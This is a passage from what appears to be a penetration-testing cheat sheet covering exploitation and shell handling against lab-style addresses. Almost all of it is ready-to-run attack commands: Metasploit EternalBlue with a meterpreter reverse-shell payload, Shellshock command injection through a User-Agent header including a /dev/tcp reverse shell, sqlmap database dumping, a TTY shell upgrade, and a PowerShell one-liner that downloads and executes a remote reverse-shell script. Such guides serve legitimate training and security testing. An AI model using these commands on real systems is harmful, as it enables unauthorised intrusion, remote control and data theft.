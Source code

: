 ```bash
# Launch Metasploit Console
msfconsole -q
# Explanation: Start Metasploit in quiet mode
# Expected output: msf6 prompt ready for commands

# Search for Specific Exploit
search ms17-010
# Explanation: Find EternalBlue exploit modules
# Expected output: List of available exploit modules with rankings

# Select and Configure Exploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.15
set LHOST 10.10.14.5
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 4444

# Execute Exploit
exploit
# Explanation: Launch the exploit against the target
# Expected output: Meterpreter session or exploitation failure
```

#### Manual Exploitation Techniques

```bash
# Shellshock Manual Exploitation
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'id'" http://10.10.10.5/cgi-bin/test.cgi
# Explanation: Exploit Shellshock vulnerability manually
# Expected output: Command execution result (user ID)

# Reverse Shell via Shellshock
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/9999 0>&1'" http://10.10.10.5/cgi-bin/test.cgi &
# Explanation: Establish reverse shell connection
# Expected output: Reverse shell connection to attacker

# SQL Injection Exploitation
sqlmap -u "http://10.10.10.5/login.php?id=1" --dbs
# Explanation: Automated SQL injection exploitation
# Expected output: Database names and structure
```

### Step 2: Shell Stabilization & Improvement

**Purpose**: Convert basic shells into fully interactive, stable connections.

```bash
# Linux Shell Upgrade (Method 1)
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z (background the shell)
stty raw -echo; fg
# Explanation: Upgrade to fully interactive TTY shell
# Expected result: Arrow keys, tab completion, clear screen functionality

# Windows PowerShell Upgrade
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/Invoke-PowerShellTcp.ps1')"
# Explanation: Upgrade to PowerShell reverse shell
# Expected result: Full PowerShell functionality

# Shell Persistence Test
echo $SHELL
whoami
```